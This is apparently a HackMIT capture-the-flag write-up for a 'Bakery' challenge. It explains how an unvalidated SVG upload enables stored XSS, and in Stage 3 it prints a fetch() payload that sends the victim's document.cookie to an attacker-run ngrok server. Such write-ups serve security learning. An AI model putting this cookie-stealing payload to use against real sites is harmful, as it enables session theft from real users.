 # Bakery

tl;dr: The image upload feature could be abused to upload content that could allow you to execute your own JavaScript and exfiltrate Vishy's Cookies.

## The Briefing

To celebrate HackMIT's 10th birthday, you've decided to order a very special cake from the HackBakery!! Come visit [HackBakery](https://bakery.hackxgpt.com/u/Aathish04_a74704) to place your order. Some say their cookies are the best in the world, though they might be a little hard to come by 👀.

## Stage 1 - Reconnaissance

From the prompt, it seems like we'll have to find some kind of hidden cookie.

Let's try to find as much information as we can about the target site.

When we visit the link, we're greeted with the following page:

[Initial Screen](./images/InitScreen.png)

It looks like we can enter some basic information like our First and Last Name, the delivery date, and upload a file to the server.

And just like the briefing implied, we don't have any cookies to play around with here. Finding them will be more difficult.

Having a look at the source code for the page, we find a very interesting comment:

[Validate Files Serverside Comment](./images/ValidateFilesServersideComment.png)

So we now know our exploit will have to leverage the lack of file validation on the server end.

Before we fill in any form data, let's start analysing the requests sent back and forth from our system to the website using a tool like [BurpSuite](https://portswigger.net/burp).

I'll enable the `Intercept` feature, since I think it will be useful to look at and modify the requests before they leave my system.

Filling in every piece of information and uploading a dummy `.png` file, we see:

[Burp With Dummy Form Data](./images/BurpWithDummyData.png)

We see what we expected to see - all the data neatly packaged into a `POST` request.

We let this request go through, and we get the following page in response:

[Burp and Browser On Preview Page](./images/AfterDummyData.png)

Three things stood out to me, and only two of them turned out to be relevant.

1. Vishy would apparently see our order shortly.
2. This page was using an `<object>` tag to display the image we uploaded, which was renamed.
3. The `name`, `date` and `size` were being set by Javascript on the client side.

Of these observations, the relevant ones turned out to be the fact that Vishy would see our order soon, and that the page was using an `<object>` tag to display the image we uploaded.

The fact that Vishy would see our order probably meant that they had the cookie that we so desparately desired. This seems like an XSS challenge, where we exploit a [Cross-Site-Scripting](https://owasp.org/www-community/attacks/xss) vulnerability on a site and get our target (in this case poor old Vishy) to visit that site and run JavaScript on behalf of them.

I found the fact that the page used `<object>` tags to display our image a little odd - surely a basic `<img>` tag would suffice right? This got me thinking about what kind of potentially malicious files one could upload and maybe have displayed on the site.

## Stage 2 - Initial Access

I'd done a little work with SVG files for other projects, and I had a hunch I could execute arbitrary Javascript using them.

First, I tried uploading a normal SVG file (one of the samples from dev.w3.org [here](https://dev.w3.org/SVG/tools/svgweb/samples/svg-files/)) to see what response I would get.

[After Normal SVG Upload](./images/AfterNormalSVG.png)

Cool, our file went through!

Now, let's see if we can get some Javascript to execute once the SVG has been loaded.

Let's add an `onload` attribute to the `svg` tag of our file:
```svg
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100" onload="alert('hello world!')">
```

Now, after uploading the file, we should get an alert on our screen.

Even before uploading the file to the server, just rendering it on the data entry page results in an XSS. I'm taking this to be a good sign, though it's no guarantee of anything ;)

[XSS Before Server Upload](./images/XSSBeforeServerUpload.png)

Now, lets see if any sanitisation is performed on the server's side to remove the malicious alert:

[XSS After Server Upload](./images/XSSAfterServerUpload.png)

Bingo! We get the alert that we want!

## Stage 3 - Exploitation

Now let's craft a line of JavaScript that will get the `document.cookie` and send it to a server we control through a request.

There are many tools online that allow you to do stuff similar to this - tools like `PostBin` will give you a URL that you can make requests to from anywhere and display the results of those requests. However, I faced some issues with it not setting its CORS headers to allow cross-origin requests, so I decided to take full control and host my own simple Python HTTP server and use [`ngrok`](https://ngrok.com/) to expose it to the rest of the internet.

I used the Python3 implementation from [this](https://stackoverflow.com/a/21957017) StackOverflow Answer, and it worked amazingly.

Once my server was running, I asked `ngrok` to connect it to the public internet and give me a URL I could make requests to, and it gladly obliged:

[Python Server and NGrok](./images/PyServerAndNGrok.png)

Now, to make a request to this endpoint using Javascript, we can use the `fetch()` API.

We simply pass the `fetch()` function what URL we need to make a request to. Even though it isn't very secure, it's easiest to use a GET request to transmit data this way, so let's just append the cookie to the endpoint:

`fetch(`https://<redacted\>.ngrok-free.app?cookie=`+document.cookie+' recieved')`

This should make a request to the endpoint we set up with the query parameter `cookie` corresponding to Vishy's cookie and after it the text ` recieved`.

Editing the `onload` attribute to execute this Javascript, we finally have our payload!

Let's upload it and monitor our server for any activity.

[After Final XSS](./images/AfterFinalXSS.png)

Wonderful! We see that we get 3 requests to our server.

Two of these were because of us visiting the page - once when we uploaded the file and the second when we visited the preview page.

The third is Vishy looking at our order and letting their cookies be exfiltrated to our server!

Opening up NGrok Inspector to take a closer look at the requests, we find that we did, indeed get the flag as part of Vishy's cookie!

[NGRokInspector](./images/NGrokInspectorFinal.png)


We enter the flag into the Command Centre, and we're good to go!
